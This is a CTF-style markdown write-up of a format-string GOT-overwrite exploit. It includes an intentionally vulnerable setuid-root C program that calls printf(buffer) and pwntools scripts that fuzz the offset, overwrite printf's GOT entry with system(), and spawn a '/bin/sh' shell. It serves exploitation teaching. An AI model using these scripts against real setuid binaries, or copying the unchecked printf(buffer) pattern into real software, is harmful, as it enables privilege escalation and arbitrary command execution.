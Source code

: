 # GOT Overwrite Exploit

## Introduction

In this exploit, we take advantage of a **format string vulnerability** in a C program to overwrite an entry in the **Global Offset Table (GOT)**. Specifically, the goal is to overwrite the `printf` entry in the GOT with the address of `system()` from the C library, allowing us to execute arbitrary commands (such as spawning a shell) with the privileges of the program.

This method relies on an attacker manipulating the **format string** used in `printf` to control the content of memory and redirect execution.

---

## Vulnerable C Code

```c
#include <stdio.h>
#include <string.h>

void vuln() {
    char buffer[300];
    
    while(1) {
        fgets(buffer, sizeof(buffer), stdin);  // Reads user input into the buffer
        printf(buffer);  // Vulnerable to format string attack
    }
}

int main() {
    setuid(0);  // Sets the user ID to 0 (root privileges)
    setgid(0);  // Sets the group ID to 0 (root group)

    vuln();  // Calls the vulnerable function

    return 0;
}
```

### Vulnerability Explanation

- The `printf(buffer)` function is **vulnerable** because the user is allowed to provide their own format string.
- Attackers can use format specifiers such as `%x`, `%s`, and `%n` to read or write arbitrary memory locations.
- The goal in this exploit is to overwrite the `printf` entry in the **Global Offset Table (GOT)** with the address of the `system()` function from libc. This way, when `printf` is called, it will execute `system()` instead.

---

## Exploit Process

### Step 1: Format String Fuzzing

We begin by fuzzing the format string to find the correct offset that we can use to overwrite the GOT entry.

```python
from pwn import *

# Initialize the binary and the process
elf = ELF('./got_overwrite', checksec=False)
p = process(level='error')

# Fuzzing loop to find format string offsets
for i in range(100):
    try:
        # Send the format string with a counter
        p.sendline('%{}$x'.format(i).encode())
        result = p.recvline().decode()
        
        # Print the results if they aren't empty
        if result:
            print(f'{i}: {result.strip()}')
    except EOFError:
        pass
```

- In this fuzzing step, we use format strings like `%1$x`, `%2$x`, etc., to find the specific stack offset where the GOT entry for `printf` resides.

### Step 2: Overwriting the GOT Entry

After identifying the correct offset, we proceed to overwrite the `printf` GOT entry with the address of `system()` from libc.

```python
from pwn import *
from pwnlib.fmtstr import FmtStr

# Function for sending the payload
def send_payload(payload):
    io.sendline(payload)
    return io.recvline()

# Set up the ELF binary and context
exe = './got_overwrite'
elf = ELF(exe, checksec=False)
context.binary = elf
context.log_level = 'debug'

# Start the exploit process
io = process(exe)

# Set the address of libc (manually determined via ldd or similar tools)
libc = elf.libc
libc.address = 0xf7dba000  # Example address (use actual from your environment)

# Create the format string for the overwrite
format_string = FmtStr(execute_fmt=send_payload)
info("format string offset: %d", format_string.offset)

# Print addresses for debugging
info("address to overwrite (elf.got.printf): %#x", elf.got.printf)
info("address to write (libc.functions.system): %#x", libc.symbols.system)

# Overwrite the GOT entry for printf with the address of system()
format_string.write(0x0804c00c, p16(0xf040))  # Lower-order
format_string.write(0x0804c00e, p16(0xf7df))  # Higher-order
# Or automagically
# format_string.write(elf.got.printf, libc.symbols.system)

# Execute the payload
format_string.execute_writes()

# Trigger the system call (spawn a shell)
io.sendline(b'/bin/sh')
io.interactive()
```

### Step 3: Triggering the Exploit

After the overwrite is successful, we send the payload `'/bin/sh'` to trigger the `system()` call. This allows the attacker to spawn a shell and take control of the program with root privileges (since the program sets `uid` and `gid` to 0).

---

## Key Concepts

### Format String Vulnerability

- **Format specifiers** such as `%x`, `%s`, and `%n` can be used by attackers to:
  - Read values from the stack.
  - Write values to memory, including function pointers in the GOT.
- The `%n` format specifier is particularly useful for writing arbitrary values to memory.

### GOT (Global Offset Table)

- The **GOT** stores addresses of functions used by the program, such as `printf()`, `system()`, etc.
- By overwriting entries in the GOT, we can redirect the program's execution to any function, like `system()`, to execute arbitrary commands.

### libc (C Library)

- In this exploit, the `system()` function from **libc** is used to execute arbitrary shell commands.
- The attacker needs to know the base address of libc (which can be found using tools like `ldd` or `gdb`).

---

## Conclusion

By exploiting a **format string vulnerability**, an attacker can overwrite a GOT entry to point to `system()`, thus allowing them to execute arbitrary commands within the context of the vulnerable program. This technique is commonly used in Capture The Flag (CTF) challenges and real-world exploits where GOT entries are not properly protected.
